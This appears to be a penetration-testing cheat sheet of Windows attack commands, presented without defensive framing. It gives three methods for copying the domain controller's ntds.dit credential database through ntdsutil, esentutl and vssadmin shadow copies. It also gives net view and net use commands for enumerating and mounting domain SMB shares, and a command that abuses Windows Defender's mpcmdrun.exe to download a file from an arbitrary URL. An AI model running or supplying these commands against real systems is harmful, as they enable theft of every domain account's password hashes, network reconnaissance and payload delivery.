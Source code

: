 % windows, ntds.dit
## dump ntds.dit (Windows >= 2008 server) - method 1
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
## dump ntds.dit (Windows >= 2008 server) - method 2
```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```
## dump ntds.dit (Windows <= 2003 server)
```
net start vss && vssadmin create shadow /for=c: && vssadmin list shadows && copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\temp
```

% windows, smb, share
## list of computer
```
net view
```

## list of computer shares on the domain
```
net view /all /domain <domain_name>
```

## list share of a computer
```
net view \\<ip> \ALL
```

## mount share locally
```
net use x: \\<ip>\<share_name>
```

## check current share
```
net share
```

% windows, file, download
## windows download file with windows defender
```
"c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\mpcmdrun.exe" -DownloadFile -url <url> -path <result_file>
```
